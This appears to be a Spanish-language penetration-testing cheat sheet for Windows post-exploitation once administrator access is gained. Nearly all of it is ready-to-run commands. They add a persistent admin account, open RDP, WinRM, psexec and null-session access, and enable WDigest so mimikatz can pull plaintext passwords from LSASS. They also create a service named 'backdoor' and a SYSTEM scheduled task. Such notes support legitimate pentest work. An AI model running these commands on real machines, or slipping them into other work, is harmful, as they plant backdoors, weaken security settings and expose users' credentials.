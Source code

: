 - Saber si estamos ante cmd ó powershell: 
	```powershell
	(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
	```
- Comprobar arquitectura de Windows
	- Sin privilegios: 
		```powershell
		$env:PROCESSOR_ARCHITECTURE	
		```
	- Con privilegios
		```powershell
		(Get-CimInstance Win32_OperatingSystem).OSArchitecture
		```
- Convertir en archivo de texto, supongamos `infoMimikatz`, con formato grepeable correcto (a veces la extracción de mimikatz da problemas)
	```bash
	dos2unix infoMimikatz
	# si no funciona
	dos2unix -f infoMimikatz
	```


## Con acceso de administrador a un sistema Windows
### Crear un usuario persistente con permisos de administrador
- **Crear un usuario:**
    ```powershell
    net user pentester StrongP@ssword123 /add
    ```
- **Añadir el usuario al grupo de administradores:**
    ```powershell
    net localgroup Administrators pentester /add
    ```
### Habilitar RDP (Escritorio Remoto)
- Habilitar RDP con `nxc`
	```bash
	nxc smb $IP -u administrator -p pass123 -M rdp -o ACTION=enable==
	```
- **Habilitar conexiones RDP:**
    ```powershell
    # Desde CMD
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    # Desde powershell
    Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0

    ```
- **Configurar el Firewall para permitir tráfico RDP:**
    ```powershell
    netsh advfirewall firewall set rule group="remote desktop" new enable=yes
    ```
### Activar el Modo Admin Restricto (Restricted Admin Mode para RDP)
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```
### Evitar restricciones con `LocalAccountTokenFilterPolicy`
Permite que las cuentas locales se autentiquen remotamente y conserven sus privilegios administrativos sin restricciones adicionales. Útil para herramientas como `psexec` o `impacket-psexec`, ya que elimina limitaciones predeterminadas que podrían bloquear RCE. 
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
### Habilitar y configurar `psexec` y herramientas basadas en SMB
Para operaciones administrativas avanzadas, como el uso de herramientas como `psexec`, **ADMIN$ debe estar habilitado**
- **Habilitar el servicio ADMIN$ (si está deshabilitado):**
    ```powershell
    sc config lanmanserver start= auto
    sc start lanmanserver
    ```
- **Abrir ADMIN$ para autenticación remota:**
    ```powershell
    net share ADMIN$=C:\Windows /grant:Administrators,FULL
    ```
### Habilitar PowerShell Remoting
Habilita WinRM automáticamente
```powershell
Enable-PSRemoting -Force
```
### Habilitar WinRM (para autenticación remota con PowerShell y herramientas como Evil-WinRM)
```powershell
winrm quickconfig -force
```
### Configurar autenticación sin contraseña (null sessions)
- **Deshabilitar restricciones de null sessions:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d "C$\IPC$" /f
    ```
- **Opcional: Permitir null sessions a nivel de usuario:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v RestrictNullSessAccess /t REG_DWORD /d 0 /f
    ```

### Habilitar autenticación WDigest (credenciales en texto claro en memoria)
Configura el sistema para almacenar credenciales en texto plano en memoria (LSASS). Si tras habilitar WDigest un usuario se conecta autentica en el sistema, tras volcar la sam, podremos extraer credenciales en texto claro con `sekurlsa::minidump lsass.dmp sekurlsa::logonpasswords`
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
### Configurar un servicio persistente con acceso remoto
```powershell
sc create backdoor binpath= "cmd.exe /k start cmd.exe" start= auto
```
### Habilitar credenciales almacenadas para acceso remoto
- Permite el uso de credenciales almacenadas para establecer conexiones remotas
	```powershell
	reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableDomainCreds /t REG_DWORD /d 0 /f
	```
- Después de esta configuración se pueden utilizar comandos como 
	```powershell
	cmdkey /add:target_machine /user:admin_user /pass:password123
	```
	Y conectarnos al sistema de manera remota sin tener que proporcionar credenciales nuevamente (facilita escenarios en los que el Double Hop puede limitar el acceso)
### Configurar una tarea programada maliciosa
- **Crear una tarea:**
    ```powershell
    schtasks /create /tn "PentestTask" /tr "cmd.exe /c whoami > C:\users\public\whoami.txt" /sc onlogon /ru SYSTEM
    ```

